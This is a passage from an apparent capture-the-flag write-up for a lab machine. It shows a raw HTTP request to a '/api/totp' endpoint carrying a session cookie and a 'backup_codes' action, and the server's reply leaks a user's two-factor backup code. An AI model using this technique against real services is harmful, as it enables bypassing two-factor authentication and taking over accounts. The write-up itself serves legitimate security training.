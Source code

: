 ![&quot;invalid\_session&quot;](/assets/img/6-invalid-session.png)

I tried sending a blank test message using Burp like before, but this gave me an "invalid session" error message, so I determined I probably needed to send the PHPSESSID I saw in my cookies after I logged into the site.  Sending the session ID in a header kept giving me the same error until I realized my mistake. **Need to send the session ID in a** _**COOKIE!!!**_ **** After that, the error message became "invalid action".  

On the 2FA site I saw:

> 2FA You can either use the OTP that we sent to your mobile or the `backup codes` that you have with you.

Emphasis above is mine.  Since I had already noticed on the `/totp` site that I was looking for "backup codes", and the blog above had `{"action":"backup_codes",` in his request, this looked like what I needed.    

```text
POST /api/totp HTTP/1.1
Host: product.player2.htb
Content-Type:application/json
Content-Length: 31
Cookie: PHPSESSID=7987tggfl6k22pq872k2vhqcej

{
  "action":"backup_codes"
}
```

Once I got my request formatted correctly ,and had the proper Cookie header, I got a response from the server.

```text
HTTP/1.1 200 OK
Date: Wed, 24 Jun 2020 23:56:46 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 43
Content-Type: application/json

{"user":"snowscan","code":"84573484857384"}
```

